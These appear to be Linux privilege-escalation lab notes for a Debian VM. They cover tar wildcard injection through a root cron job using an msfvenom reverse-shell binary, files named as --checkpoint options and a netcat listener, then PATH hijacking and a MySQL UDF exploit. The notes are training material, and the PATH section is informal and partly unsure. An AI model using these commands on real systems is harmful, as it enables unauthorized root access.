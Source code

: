 Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```
Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:
```
chmod +x /home/user/shell.elf
```
Create these two files in /home/user:
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.
```
nc -nvlp 4444
```
Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:
```
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```


## Exploting Path Variables
Lets start off with every command that your file excutes it is done threw a file in /bin. If you change  that you can screw with the commands and change the commands to setup a root console. You can do this if their is an unwritabble root script that you can run and predict the commands. First navigate to a folder like "/tmp" then create a exutable like ls with "echo "/bin/bash" > ls" and then chmod +x ls. You can then change the path variable with "PATH=/tmp:$PATH".

Notes:
- everytime you use ls now then you are going to create a bash terminal. use /bin/ls.
- to reset your path variable use: "export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH" i think

## SQL Service Exploit
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular [exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

##
